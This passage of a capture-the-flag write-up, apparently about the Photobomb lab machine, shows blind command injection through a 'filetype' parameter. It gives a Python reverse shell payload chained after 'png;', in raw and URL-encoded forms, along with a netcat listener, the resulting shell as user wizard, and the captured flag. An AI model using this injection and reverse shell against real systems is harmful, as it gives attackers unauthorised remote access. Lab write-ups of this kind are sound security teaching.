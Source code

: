 After a few seconds, a connection was received on the Python web server - we have blind command injection capabilities!

```
└─$ python3 -m http.server 80                                                                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [23/Dec/2022 04:43:11] "GET / HTTP/1.1" 200 -
```

We now inject a Python reverse shell into the ```filetype``` parameter.

##### Command for Listener:
> nc -lnvp [my port]

##### Raw Payload:
>png;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(([my ip],[my port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

##### URL-Endoded Payload:
>png%3Bpython3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(
socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%5Bmy%20ip%5D%2C%5Bmy%20port%5D)
)%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)
%3Bimport%20pty%3B%20pty.spawn(%22sh%22)%27

And this worked!

```
└─$ nc -lnvp 1234                                                                            	
listening on [any] 1234 ...
connect to [my ip] from (UNKNOWN) [target] 60160                                                                                      
$ id                                                                                              	 
id                                                                                                	 
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)    	
```

We see we are the ```wizard``` user. The command ```python3 -c 'import pty; pty.spawn("/bin/bash")'``` is used to get a slightly more stable shell. We now navigate to ```wizard```’s home directory, and find the ```user.txt``` flag.

```
wizard@photobomb:~/photobomb$ pwd  
pwd
/home/wizard/photobomb
wizard@photobomb:~/photobomb$ cd ..
cd ..
wizard@photobomb:~$ ls
ls
find  photobomb  user.txt
wizard@photobomb:~$ cat user.txt
cat user.txt
E3858e23d33f0ad60d0f8eb759cab843
```
